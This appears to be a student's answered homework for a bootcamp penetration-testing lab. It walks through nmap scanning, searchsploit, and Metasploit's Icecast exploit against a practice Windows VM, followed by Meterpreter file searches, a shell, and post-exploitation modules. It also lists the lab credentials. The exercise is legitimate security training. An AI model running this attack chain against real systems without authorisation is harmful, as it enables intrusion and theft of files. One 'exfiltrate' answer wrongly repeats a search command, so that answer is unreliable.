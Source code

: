 ﻿


> Written with [StackEdit](https://stackedit.io/).
> ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sS -O -sV 192.168.0.20 `
 ![b1](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit -t Icecast windows`
![b2](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 ![b3](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: msf5 > `search Icecast`
 ![b4](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: msf5 > `use 0`
 ![b4-note](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`: 
      
     > Answer:  `set RHOSTS 192.168.0.20`
 ![b5](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
 ![b6-1](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secret*.txt`
 ![b6-2](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW) 
 
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  `search -f *recipe.txt*`
 ![b7-1](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer:  `search -f *recipe*.txt*`
 ![b7-2](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - **Bonus2(By-me)**:
 - ![meterpreter>shell](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - ![Drink-Recipe](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - ![Password.txt](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - ![Secretfile](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
  > Answer: meterpreter > `run post/multi/recon/local_exploit_suggester`
 ![b8](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: meterpreter > `run post/windows/gather/enum_logged_on_users`
 ![Bonus-A](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer:  meterpreter > `shell `![Bonus-B-1(shell)](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
     
  > Answer:  meterpreter > `sysinfo `![Bonus-sysinfo](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)

C. Run the command that displays the target's computer system information:

   > Answer: `systeminfo`
![Bonus-c](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)


---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

